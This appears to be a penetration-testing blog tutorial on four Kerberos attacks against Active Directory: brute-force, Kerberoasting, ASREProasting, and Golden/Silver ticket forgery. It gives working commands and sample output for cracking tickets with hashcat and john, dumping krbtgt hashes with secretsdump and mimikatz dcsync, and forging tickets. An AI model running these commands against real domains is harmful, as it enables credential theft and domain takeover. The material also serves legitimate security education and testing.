

# Attacks on Kerberos

## Introduction:

In the realm of Active Directory penetration testing, understanding how to exploit Kerberos misconfigurations is a crucial skill. Kerberos is a network authentication protocol that plays a vital role in securing Windows environments. However, misconfigurations within a Kerberos realm can open doors for attackers to exploit and gain unauthorized access. In this article, we will delve into four basic attacks that exploit Kerberos misconfigurations:

* [Kerberos brute-force](https://mabenchi.me/posts/attacks-on-kerberos/#kerberos-brute-force)
* [Kerberoast](https://mabenchi.me/posts/attacks-on-kerberos/#kerberoast)
* [ASREProast](https://mabenchi.me/posts/attacks-on-kerberos/#asreproast)
* [Golden/Silver ticket](https://mabenchi.me/posts/attacks-on-kerberos/#goldensilver-ticket)

Hope you enjoy ☺️.

_**if you don't know what is kerberos and how does it work, refer to my previous post.**_ [_**Kerberos Authentication**_](https://mabenchi.me/posts/kerberos/)

## Kerberos brute-force

A brute-force attack involves attempting all possible combinations of characters until the correct password is discovered. This typically involves trying all possible combinations of letters, numbers, and symbols within a given character set. The attacker starts with the shortest possible password length and incrementally increases the length until the correct password is found.

It is very recommanded to do some research before going in with this type of attacks, like getting the most common passwords or some password breaches and not start brute-forcing blindly due to the long time it would take and the noise.

In term of Kerberos, you can brute-force to get a TGT for a user by checking for Kerberos errors which are very verbose:

* KDC\_ERR\_PREAUTH\_FAILED: Incorrect password
* KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN: Invalid username
* KDC\_ERR\_WRONG\_REALM: Invalid domain
* KDC\_ERR\_CLIENT\_REVOKED: Disabled/Blocked user

By checking this errors, you cannot just brute-force for password but only for valid usernames.

But keep in mind that this attack may cause blocking users, if security measures for preventing are employed.

We can use [Kerbrute.py](https://github.com/TarlogicSecurity/kerbrute) in order to launch a Kerberos brute-force attack.

```shell
$ python kerbrute.py -domain contoso.local -users users.txt -passwords passwords.txt -dc-ip 192.168.100.2
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Valid user => Anakin
[*] Blocked/Disabled user => Leia
[*] Valid user => Han [NOT PREAUTH]
[*] Valid user => Administrator
[*] Stupendous => Anakin:Vader1234!
[*] Saved TGT in Anakin.ccache

```

## Kerberoast

When a user requests a Service Ticket (ST), it is encrypted using a hash derived from the service account's password. This encryption ensures the security of the ticket during transit. However, in certain cases, attackers may attempt to crack the encrypted Service Ticket offline using specialized tools. The success of such cracking attempts depends on the complexity and strength of the service account's password.

In practice, cracking the Service Ticket becomes significantly more challenging when the service account is a computer account. Computer accounts typically have long and complex passwords that are difficult to guess or crack. Therefore, attackers often focus on finding service accounts associated with user accounts. This is because humans tend to choose passwords that are relatively weak and easy to memorize, making them more susceptible to cracking attempts.

First, we need to find if there is any service runned by a regular user account. To search for it we can use this ldap filter:

```ldap
(&(samAccountType=805306368)(servicePrincipalName=*))

```

> samAccountType : A service account associated with a computer account typically has a value of 805306369, while a service account associated with a user account typically has a value of 805306368.
>
> servicePrincipalName : has to be not null, to be sure that we can authenticate to it using kerberos.

Or use this [impacket](https://github.com/fortra/impacket/tree/master) script [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) in linux to enumerate Kerberoastable users:

```shell
python3 GetUserSPNs.py 'contoso.local/Anakin:Vader1234!' -dc-ip 192.168.100.2 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name  MemberOf                                       PasswordLastSet             LastLogon                   Delegation 
--------------------  ----  ---------------------------------------------  --------------------------  --------------------------  ----------
HTTP/ws01-10          leia  CN=Domain Admins,CN=Users,DC=contoso,DC=local  2021-01-01 16:38:02.183703  2021-01-15 11:46:13.998905  

```

We can also use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module for Powershell:

```powershell
Get-NetUser -SPN #Kerberoastable users

```

Also we can use [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) to perform all the necessary steps to request a ST from the given services by adding '-request' and an output file.

```shell
$ GetUserSPNs.py 'contoso.local/Anakin:Vader1234!' -dc-ip 192.168.100.2 -request -outputfile kerberoast-hashes.txt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name  MemberOf                                       PasswordLastSet             LastLogon                   Delegation 
--------------------  ----  ---------------------------------------------  --------------------------  --------------------------  ----------
HTTP/ws01-10          leia  CN=Domain Admins,CN=Users,DC=contoso,DC=local  2021-01-01 16:38:02.183703  2021-01-15 11:46:13.998905             


$ cat kerberoast-hashes.txt 
$krb5tgs$23$*leia$CONTOSO.LOCAL$HTTP/ws01-10*$65ca3e856acd6d9438c05cb6c283dcb5$ab86cafcf1dee23d2466973679fc315e9fef3fa2ddcae82d844b31e1651ed983a4d4ff0846148ddf63f80129cd2cb663c7daed26169513ec398464a9796ae7f84e593829f16654279d5b3fa4286eb1e6467a3d569bc88d7150f30cf2dc83ff4185f0a7590b9e5a05ba63cb9dbb710df295c4356cc57ac53cc2d0e0974aeb0e2ae930e6311c5268c457d5da726393e93e9b0d1c8d745ad7b6d63bf36eb11c7f171da87bee9d4ac69b2a8f70157ce402af52ffd35498e3cade179af266be08e5fcf3aee6a0dae26afb6470ba2d25c922868b9a0ca4c80eece585782ea0ea96b6e4f3ee56dc1808990ecf456c021d04ec74edef98b3235553176e55d56a7f3ee9c76f2f22ab7e3d30fabc658a516f8ef03710032aaae36a917cc7e677857c09df3035bd6034aa192c620c9cb6452533225e9606ac06cf0a6a5865468599cd73907b574cef0c081df388ea50176288a444692db96026d2f33f3ba4e8597d11557443e262bee86ca6485272addcf03056a93b6e7e60c02a152640f320e7094f5897fbf1cee83ab45a6f62fc554ec1c67878d9aa7974e43e2f1bdff2b0c197e3ccbd9daf84c1a37bc453aec6a0fa502c05ae530e14a5d1f7bceb5cb1393460a0f8eec8b058ede6ceda637a3c248fcd1e1fe57ae2f2d343c5e749cf9897023b910a3e2b13025584b2a9d4e73e9809ba25231b3fd3616476e51406993d354c9015a95888957e3d3d69784dc8b5c12b11e225756a41485c57467aa1c4041e6c7879f4efe65710fd760c5c3472f1ebefefa8a0f5099ccff5ef84162b1ddd42d795d82a8ac09f811e692c5aec13ee5f9e6335a5501f50412cee10da5a1a444cc5a1f9885885088b6f01d36dc8684101fde2a3c4a40ffe424ca8b3512455f5662794c64fed3b5183aaa9a338f18a33da8e41ac8a4e5598925cfe49db7362f107e018694922b26e20d5e3f125ff151f4299919fa082ad6f0d15643a69584a41b06ba46cca25c57ac51e7430c9166cdcc34428e108fba970d0c550694b431179d867f6b6dfe91e893be37bcf8407e9965921cbcf7b17a7f575ec64e4c7fb8bde0d4994b382cc58b44fc964528ac9aae46b5a84109f3f3ef23a71cca40355d71c95aa191cc11fbd66613f05f58eb74b07530b3deef934811da775c00d6a4217508501b14958b5241a8be72d20f891d5122936ebee8c636a7c746a3bae78d435c11efa4c8693d87d9d7f7c7369ea620d886affea1e1cfbcb216d9f44ad42fedbc81f71722eccc6b54b00c2e80902a1fe49d06ca099f8db51aa1f2ad9ad761208f38803d0c842bbbcaf0c08259904eebdd4

```

After getting the ST we can try to crack it using john or hashcat.

```sh
john --format=krb5tgs --wordlist=passwords_kerb.txt kerberoast-hashes.txt
hashcat -m 13100 --force -a 0 kerberoast-hashes.txt passwords_kerb.txt
```

## ASREProast

In the usual scenario, when a user wants to request a Ticket Granting Ticket (TGT), they are typically required to enter their password as part of the authentication process. However, there are certain cases where a user can request a TGT without entering their password. One such case occurs when the "[DONT\_REQ\_PREAUTH](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)" flag is enabled in the UserAccountControl attribute of the user account. It is important to note that this situation is relatively uncommon and not the default behavior.

So, we need first to identify users with "DONT\_REQ\_PREAUTH" enabled:

> The ASREPRoasting attack does not require a domain account; it only requires a connection to a domain controller. However, to enumerate and retrieve information from the domain controller, valid credentials are necessary.
>
> If you have no domain account, you can check by username guessing using [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) with a username wordlist (since requesting a ST doesn't require a password if DONT\_REQ\_PREAUTH is enabled):
>
> ```shell
> python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
>
> ```

Using PowerView:

```powershell
Get-DomainUser -PreauthNotRequired -verbose

```

We can also use [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) in the case of having valid creds, this will enumerate the targets and target them, the response will be stored in the outfile:

```shell
#Linux
python GetNPUsers.py "contoso.local/Anakin:Vader1234!" -request -format hashcat -outputfile hashes.asreproast

```

Or using Rubeus.exe in windows

```powershell
#Windows
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]

```

We are aware that the Ticket Granting Ticket (TGT) is encrypted using the Key Distribution Center's (KDC) secret key, which is not our primary objective. However, when we receive a response from the KDC, it is not a TGT but an ASREP (Authentication Service Response) which contains more information than just the TGT:

```sds
AS-REP          ::= [APPLICATION 11] KDC-REP

KDC-REP         ::= SEQUENCE {
        pvno            [0] INTEGER (5),
        msg-type        [1] INTEGER (11 -- AS --),
        padata          [2] SEQUENCE OF PA-DATA OPTIONAL
        crealm          [3] Realm,
        cname           [4] PrincipalName,
        ticket          [5] Ticket, -- Encrypted with krbtgt key
        enc-part        [6] EncryptedData -- Encrypted with user key

}

```

The entire response is encrypted using the user's secret key.

Therefore, our current objective is to try cracking the ASREP and hopefully obtain the user's password. To achieve this, we can utilize a tool like hashcat or john:

```shell
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 

```

## Golden/Silver ticket

## Golden ticket

As we know a TGT is encrypted using a [KRBTGT](https://blog.quest.com/what-is-krbtgt-and-why-should-you-change-the-password/) account secret key, imagine we obtain this key that means we can create a TGT to impersonate any AD user they want, including privileged administrators. Moreover, they can make those tickets valid for as long as they want, even if that violates the organization’s time limit policy setting. That gives them nearly unlimited power in the domain by modifying [PAC](https://en.hackndo.com/kerberos-silver-golden-tickets/#pac).

> You can use a Golden Ticket with a forged PAC for around 20 minutes before the DC recheck the authenticity of the PAC.

To get the KRBTGT key (NTLM hash, AES128, AES256), we need admin access to a Domain Controller, then we can peform a lsass memory dump or obtain it from the NTDS.dit file by dumping it locally or we perform a remote [dcsync attack](https://adsecurity.org/?p=1729) which can be performed using [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-lsadump#dcsync) or the impacket example [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

Dumping LSA secrets with secretsdump.py example:

```shell
#linux
secretsdump.py 'contoso.local/Administrator@DC-IP' -just-dc-user krbtgt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fe8b03404a4975e7226caf6162cfccba:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5249e3cf829c979959286c0ee145b7e6b8b8589287bea3c83dd5c9488c40f162
krbtgt:aes128-cts-hmac-sha1-96:a268f61e103134bb7e975a146ed1f506
krbtgt:des-cbc-md5:0e6d79d66b4951cd
[*] Cleaning up...

```

Launching a dcsync on

```powershell
#windows
PS> mimikatz.exe "lsadump::dcsync /user:DOMAIN\KRBTGT"
 
mimikatz(commandline) # lsadump::dcsync /user:DOMAIN\Krbtgt
[DC] 'DOMAIN.com' will be the domain # The Domain DNS Name
[DC] 'DC1.DOMAIN.com' will be the DC server
[DC] 'DOMAIN\Krbtgt' will be the user account
 
Object RDN           : krbtgt
 
** SAM ACCOUNT **
 
SAM Username         : krbtgt
User Principal Name  : krbtgt@DOMAIN.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 09/03/2020 14:51:03
Object Security ID   : S-1-5-21-5840559-2756745051-1363507867-502 # The SID of KRBTGT Account
Object Relative ID   : 502
 
Credentials:
  Hash NTLM: 1b8cee51fd49e55e8c9c9004a4acc159  # NTLM Hash
 
#...
* Primary:Kerberos-Newer-Keys *
    Default Salt : PROD.COMkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ffa8bd983a5a03618bdf577c2d79a467265f140ba339b89cc0a9c1bfdb4747f5 # AES256 Hash
      aes128_hmac       (4096) : 471644de05c4834cc6cbc06896210e7d # AES128 Hash
#...

```

Now that we obtain the keys of KRBTGT account we can create a golden ticket by providing:

```
The FQDN (Fully Qualified Domain Name) of the domain: (contoso.local)
The SID (Security Identifier) of the domain (S-1-5-21-5840559-2756745051-1363507867)
The username of the account they want to impersonate (trustMe)
The KRBTGT password hash (1b8cee51fd49e55e8c9c9004a4acc159)
```

To create it in linux, we can [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py):

```shell
#linux
python ticketer.py -nthash 1b8cee51fd49e55e8c9c9004a4acc159 -domain-sid S-1-5-21-5840559-2756745051-1363507867 -domain contoso.local random_user

```

Or using mimikatz:

```poweshell
kerberos::golden /User:random_user /domain:contoso.local /sid:S-1-5-21-5840559-2756745051-1363507867 /krbtgt:1b8cee51fd49e55e8c9c9004a4acc159 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt

```

> Keep in mind by using the NTLM hash as key, the TGT will be encrypted using RC4 algorithme which is a weak type of encryption and may cause the ticket to be detected, it is recommanded to use AES Kerberos keys to forge tickets.

## Silver Ticket

With the same principals, TGS is encrypted using Service Account secret key (NTLM hash) that is running the service (computer account or user account). If we can get the password or NTLM hash, we can forge a TGS to this service by forging the PAC.

To get the service account key, we can perform various attacks like kerberoasting as we saw in one of the sections before or dumping lsass memory from computers that the service account logged on, or we can dump NTDS.dit file from DC if we have enough priviledges, etc.

You can create a Silver Ticket using Mimikatz:

```powershell
kerberos::golden /domain:contoso.local /user:random_user /sid:S-1-5-21-5840559-2756745051-1363507867 /rc4:0123456789abcdef0123456789abcdef /target:DESKTOP-01.contoso.local /service:cifs /ptt

```

Or using impacket ticketer.py:

```shell
ticketer.py -nthash 0123456789abcdef0123456789abcdef -domain-sid S-1-5-21-5840559-2756745051-1363507867 -domain contoso.local -spn CIFS/DESKTOP-01.contoso.local random_user

```

## . . .

## _**Thank you for reading! I hope you found this post informative and gained valuable insights from it. I would appreciate any feedback or suggestions for improvement, which you can provide on my**_ [_**Linkedin**_](https://www.linkedin.com/in/marouane-benchiekh/) _**account.**_

<figure><figcaption></figcaption></figure>
